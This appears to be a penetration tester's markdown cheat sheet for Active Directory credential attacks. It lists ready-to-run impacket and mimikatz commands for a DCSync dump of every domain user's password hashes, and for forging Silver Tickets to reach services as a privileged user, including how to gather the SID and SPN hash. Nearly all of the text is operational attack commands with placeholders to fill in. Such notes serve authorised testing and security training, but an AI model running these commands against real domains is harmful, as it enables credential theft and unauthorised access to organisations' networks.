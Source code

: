 ```shell
```
# *dcsync(LADC,NTDS)*
***Can obtain ALL USER HASHES via targeted attack***
## impacket-secretsdump
```shell
# NTLM hashes and Kerberos keys
impacket-secretsdump -just-dc `dom`/AdminUser[:pass]@`dc` -hashes :HASH
# Options
# -just-dc-user TARGETUSER
# -just-dc-ntlm ⇒ only NTDS.dit data (NTLM hashes only)
```
## mimikatz
```shell
privilege::debug
token::elevate

lsadump::dcsync /user:corp\dave
lsadump::dcsync /user:corp\Administrator
lsadump::dcsync /domain:[domain] /all /csv
# NTDS.dit (equivalent of -just-dc in impacket-secretsdump)
```

# ***Silver Ticket (LAr)***
***Accessing SPN services as PRIV USER through forged service tickets***
***NEED:***
1. _**SPN hash** (impacket or mimikatz)_
2. _**Domain SID** (everything upto last dash - from whoami /user)_
3. _**SPN resource name** (setspn.exe or Get-NetUser -SPN)_
4. _**Target Domain User** (for the /user option)_
## impacket
```shell
# 1 Obtain SPN NTLM hash (secretsdump or mimikatz)


# 2 GET Domain SID (from one of below)
impacket-lookupsid `dom`/'user'[:'pass']@`tip` -H :HASH
nxc ldap `dc` -u 'pass' -p 'pass' -k --get-sid


# 3 FORGE the TGS
impacket-ticketer -domain `dom` -nthash :SPNHASH -domain-sid SID -spn SERVICE/`dom` USER
```
## mimikatz
```shell
privilege::debug
token::elevate

# REPLACE ALL CAPPED stuff w/ appropriate things
sekurlsa::logonpasswords
kerberos::golden /sid:DOMAINSID /domain:DOMAIN /ptt /target:WEB04.CORP.com /service:HTTP /rc4:SPNHASH /user:USER
```
# *List Tickets (Du)*
## PS
```shell
```